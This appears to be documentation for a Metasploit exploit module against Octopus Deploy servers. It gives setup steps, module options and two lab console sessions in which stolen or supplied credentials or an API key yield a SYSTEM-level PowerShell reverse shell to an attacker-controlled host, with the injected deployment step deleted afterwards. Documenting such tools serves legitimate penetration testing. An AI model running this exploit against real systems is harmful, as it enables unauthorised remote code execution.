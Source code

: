 ## Vulnerable Application

  [Install Octopus Deploy server](https://octopus.com/docs/getting-started#Gettingstarted-InstalltheOctopusserver)
  
  [Create a test user/team](https://octopus.com/docs/administration/managing-users-and-teams) - Team should have "Project contributor" and "Project deployer", or just "System administrator" and add your test user.
  
  [Create an API key](https://octopus.com/docs/how-to/how-to-create-an-api-key)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/octopusdeploy_deploy```
  4. Do: set ```PATH```, ```RHOST```, ```RPORT```, and ```SSL``` if needed
  5. Do: set ```STEPNAME``` if desired
  6. Do: set ```USERNAME``` and ```PASSWORD``` or just ```APIKEY```
  7. Do: ```run```
  8. You should get a shell.

## Options

  **APIKEY**

  API key, which can be generated within the Octopus Deploy application. Can be used instead of a username/password combination.

  **USERNAME**

  Username of the Octopus Deploy user.

  **PASSWORD**

  Password of the Octopus Deploy user.

  **RHOST**

  Host running Octopus Deploy server.

  **RPORT**

  Port Octopus Deploy is running on.

  **PATH**

  Path to the Octopus Deploy instance. For example, if you sign in to "https://example.com/octopus/app", the value should be "/octopus".

  **STEPNAME**

  Name of the step to be added to a deployment. This may be visible in the application for a short period of time. A random value will be generated if no value is provided.

  **SSL**

  Enables or disables SSL. Octopus Deploy server can be configured to listen for HTTP or HTTPS traffic.
## Scenarios

### Octopus Deploy Server 3.16.0

  Getting a privileged shell on Octopus Deploy server using administrative credentials.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set USERNAME ODUser
USERNAME => ODUser
msf exploit(octopusdeploy_deploy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step r4XAJc to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.2
[*] Creating release
[*] Release Releases-79 created
[*] Deploying TestProject2 version 0.0.2 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step r4XAJc from TestProject2
[*] Step r4XAJc deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59346) at 2017-05-15 19:54:01 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025358-22>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025358-22> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) >
  ```

  Getting a privileged shell on Octopus Deploy server using a sufficiently privileged API key.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > set APIKEY API-FCIQ773M43RKNC4I9KZHQTABC
APIKEY => API-FCIQ773M43RKNC4I9KZHQTABC
msf exploit(octopusdeploy_deploy) > set STEPNAME shell
STEPNAME => shell
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step shell to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.3
[*] Creating release
[*] Release Releases-80 created
[*] Deploying TestProject2 version 0.0.3 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step shell from TestProject2
[*] Step shell deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59373) at 2017-05-15 19:59:55 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025952-24>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025952-24> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) > 
  ```